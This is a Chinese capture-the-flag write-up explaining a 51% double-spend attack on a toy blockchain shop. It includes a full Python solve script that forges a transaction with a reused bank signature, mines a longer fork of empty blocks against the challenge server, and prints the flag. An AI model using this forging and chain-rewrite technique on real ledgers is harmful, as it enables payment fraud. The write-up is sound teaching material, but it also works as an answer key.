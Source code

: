 # Web_python_block_chain

## 思路分析

> 打开网页,看开一些区块链信息,能查看源码,下载,区块链就不会了,看别人WP说是51%攻击.

## 51% 双花攻击

> 这道题整的解法是 51% （双花）攻击。

> 请于正常的区块链区分开来，题目环境中只有你一个玩家，并没有人与你竞争（挖矿）。

> 商店交易采用0确认，而不是现实中的6确认。

> 当出现分叉时，区块链的规则认最长的分链为主链，并舍去原有的链。

> 区块链允许添加空块

> 51%（双花）攻击可以达到的目的就是使攻击前的交易作废，这里的前不一定是前一个，而是很大程度上取决于你的算力的。让之前的交易作废有什么好处呢？这里我们就要考虑0确认和6确认的区别了。

## 6确认

> 当产生一笔交易时，区块链的P2P网络会广播这笔交易，这笔交易会被一个挖矿节点收到，并验证，如果这个挖矿节点挖到区块（生成的hash满足条件）后，并且这笔交易的手续费足够吸引这个节点去打包进区块，那这笔交易就会被打包进区块。因此就得到了一个确认，这个矿工也拿走了相应的手续费。 这个挖矿节点打包后，会把区块广播给其他节点。其他节点验证并广播这个区块。 如果这个区块得到更多的挖矿节点的验证确认，那就得到了更多的确认。这样这笔交易就被记录到了比特币区块链，并成为了比特币账本的一部分。如果得到6个确认后，我们就认为它永远不可变了。

## 0确认

> 0确认就同样的道理了，那就是不需要别人确认，就如我们生活中的一手交钱一手交货，不同的是生活中我们处于中心化社会，银行会帮我们确认。而6确认就是需要经过6个人(区块被挖出)交易才确定。

> 可以看到对0确认和6确认进行51%(双花)攻击的难度是不一样的，6确认需要的算力明显要大，因为他要多比其他人生成6个区块。好在，题目并不是采用6确认。

然后再看看这里的51% 攻击，其实这里说的51%是指算力，也就是这种攻击需要攻击者具备全网51%的算力，因为这样才有机会使自己生成（挖出）区块的速度超过其他人，然后按区块链的规则：当出现分叉时，区块链的规则认最长的分链为主链，并舍去原有的链，就达到了撤销原来链上已经存在的交易，拿回该交易使用了的钱的目的，这里我的另一个理解就是可以使交易回滚，从而追回被盗的钱。

## payload

```
import re
import json
import uuid
import hashlib
import requests
from functools import reduce

# 一堆变量常量

url_root = "http://61.147.171.105:54354"
url_create = "http://61.147.171.105:54354/create_transaction"
url_flag = "http://61.147.171.105:54354/flag"

s = requests.Session()
ddcoin = s.get(url_root)

prev_one= re.search(r"hash of genesis block: ([0-9a-f]{64})", ddcoin.text, flags = 0).group(1)
bank_utox_id= re.search(r"\"input\": \[\"([0-9a-f\-]{36})", ddcoin.text, flags = 0).group(1)
bank_signature= re.search(r"\"signature\": \[\"([0-9a-f]{96})", ddcoin.text, flags = 0).group(1)

DIFFICULTY = int('00000' + 'f' * 59, 16)
EMPTY_HASH = '0'*64

bank_addr = "b4f841897c5c65946e416444e1de2f4407c7ef5d73aea05f76016217da23199c70c9bbaa4c844a8c5c487b6633c1ecd7"
hacke_addr = "c549666e5f138f974dc278338ab6f1c0276769f97c0c621cba93528c69fb573d0d14c671195d49c3b353785a08560eed"
shop_addr = "ba0bdbe9bd6e00ecdcb8f2647a93e703990bacdcdc6e295cb0ce8a05c25c48eeb57f11948047bbf5a644ed277cafc019"

# 源码中的API

def hash(x):
    return hashlib.sha256(hashlib.md5(x.encode('utf-8')).digest()).hexdigest()

def hash_reducer(x, y):
    return hash(hash(x) + hash(y))

def hash_block(block):
    return reduce(hash_reducer, [block['prev'], block['nonce'], reduce(hash_reducer, [tx['hash'] for tx in block['transactions']], EMPTY_HASH)])

def hash_utxo(utxo):
    return reduce(hash_reducer, [utxo['id'], utxo['addr'], str(utxo['amount'])])

def hash_tx(tx):
    return reduce(hash_reducer, [
        reduce(hash_reducer, tx['input'], EMPTY_HASH),
        reduce(hash_reducer, [utxo['hash'] for utxo in tx['output']], EMPTY_HASH)
    ])

def create_output_utxo(addr_to, amount):
    utxo = {'id': str(uuid.uuid4()), 'addr': addr_to, 'amount': amount}
    utxo['hash'] = hash_utxo(utxo)
    return utxo

def create_tx(input_utxo_ids, output_utxo, privkey_from=None):
    tx = {'input': input_utxo_ids, 'signature':[bank_signature], 'output': output_utxo}  # 修改了签名
    tx['hash'] = hash_tx(tx)
    return tx

def create_block(prev_block_hash, nonce_str, transactions):
    if type(prev_block_hash) != type(''): raise Exception('prev_block_hash should be hex-encoded hash value')
    nonce = str(nonce_str)
    if len(nonce) > 128: raise Exception('the nonce is too long')
    block = {'prev': prev_block_hash, 'nonce': nonce, 'transactions': transactions}
    block['hash'] = hash_block(block)
    return block


# 构造的方法

def check_hash(prev,tx):
    for i in range(10000000):
        current_block = create_block(prev, str(i), tx)
        block_hash = int(current_block['hash'], 16)
        if block_hash < DIFFICULTY:
            print(json.dumps(current_block))
            return current_block

def create_feak_one():
    utxo_first = create_output_utxo(shop_addr, 1000000)
    tx_first = create_tx([bank_utox_id], [utxo_first])
    return check_hash(prev_one, [tx_first])

def create_empty_block(prev):
    return check_hash(prev, [])


# 攻击过程

a = create_feak_one()
print(s.post(url_create, data = str(json.dumps(a))).text)
b = create_empty_block(a['hash'])
print(s.post(url_create, data = str(json.dumps(b))).text)
c = create_empty_block(b['hash'])
print(s.post(url_create, data = str(json.dumps(c))).text)
d = create_empty_block(c['hash'])
print(s.post(url_create, data = str(json.dumps(d))).text)
e = create_empty_block(d['hash'])
print(s.post(url_create, data = str(json.dumps(e))).text)
print(s.get(url_flag).text)
```

## flag

> ctf{922a488e-f243-4b09-ae2d-fa2725da79ea}

## 参考

> https://blog.csdn.net/hxhxhxhxx/article/details/108111692